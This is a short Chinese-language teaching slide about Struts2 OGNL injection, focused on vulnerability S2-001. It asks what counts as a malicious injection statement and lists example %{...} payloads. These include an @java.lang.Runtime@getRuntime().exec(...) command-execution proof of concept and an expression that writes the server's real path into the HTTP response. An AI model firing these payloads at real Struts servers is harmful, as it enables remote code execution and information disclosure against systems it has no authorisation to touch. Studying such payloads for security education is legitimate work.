

注入存在的相关问题
针对struts的OGNL漏洞，形成的漏洞注入语句都是Java注入语句么，如果要求有恶意，恶意的标准是什么
问题一

S2-001
当参数值是形如%{*}的形式的时候，Struts2会把这个值当做OGNL表达式去执行。
%{'helloworld'.length()}
%{1+1}
%{@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app/")}
%{
#req=@org.apache.struts2.ServletActionContext@getRequest(),
#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),
#response.println(#req.getRealPath('/')),
#response.flush(),
#response.close()
}